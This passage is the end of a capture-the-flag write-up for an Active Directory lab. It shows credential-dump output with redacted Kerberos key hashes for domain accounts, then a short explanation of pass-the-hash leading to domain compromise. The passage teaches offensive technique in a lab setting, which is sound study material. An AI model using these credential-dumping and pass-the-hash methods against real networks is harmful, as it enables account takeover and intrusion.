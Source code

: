 ```
spookysec.local\horshark:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\horshark:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\horshark:des-cbc-md5:[REDACTED]
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\svc-admin:des-cbc-md5:[REDACTED]
spookysec.local\backup:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\backup:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\backup:des-cbc-md5:[REDACTED]
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:[REDACTED]
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:[REDACTED]
spookysec.local\a-spooks:des-cbc-md5:[REDACTED]
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:[REDACTED]
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:[REDACTED]
ATTACKTIVEDIREC$:des-cbc-md5:[REDACTED]
[*] Cleaning up...
```
Now we have Administrator password hash in possession, we can move on a Pass The Hash exploitation. This attack is possible because Windows systems store password hashes in memory and do not require the plaintext password for authentication. 

<span id='privesc'></span>

## **Gaining access & Privesc**
*IP has changed because the VM has expired.*

<span id='pass'></span>

### **Pass the hash**

![privesc-ad](/images/pwned-ad.png)

> 🚩 *Pwned*

Thanks for reading ! Give me a feedback on Discord - `Teiiko#8831`

<button id="back-to-top-btn" class="btn arrow btn-lg circle"><i class="fas fa-arrow-up"></i></button>

<style>
#back-to-top-btn {
  position: fixed;
  bottom: 20px;
  right: 40px;
  display:none;
  cursor:pointer;
}
